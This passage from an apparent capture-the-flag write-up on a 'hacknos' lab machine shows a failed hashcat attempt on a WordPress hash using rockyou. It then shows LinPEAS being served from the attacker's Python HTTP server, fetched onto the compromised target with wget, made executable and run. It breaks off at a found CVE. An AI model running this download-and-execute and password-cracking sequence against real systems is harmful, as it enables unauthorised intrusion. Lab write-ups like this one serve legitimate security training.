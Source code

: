 ![evidence](./static/07-mariadb.png)

When I store the hash in a file called `wp_local.hash`, and I try to crack it with the `hashcat` command, and the Rockyou list:
```shell
$ hashcat -a 0 -m 400 wp_local.hash rockyou.txt --force
```
Then it does not work, when I keep exploring the server, and I try to find writable or executable files, and I look for suspicious processes, then I can not find anything useful, and I was stuck, and I decided to check the `LinPEAS` tool. When I download it:
```shell
$ wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/
> linpeas.sh"
```
And I open an `HTTP` server with `Python3`:
```shell
$ python3 -m http.server 8000
```
And I download it to the target server:
```shell
$ www-data@hacknos:/tmp$ wget 192.168.2.31:8000/linpeas.sh
```
And I give it executable permissions:
```shell
$ www-data@hacknos:/tmp$ chmod +x linpeas.sh
```
And I run it:
```shell
$ www-data@hacknos:/tmp$ ./linpeas.sh
```
Then I can see a potential CVE:
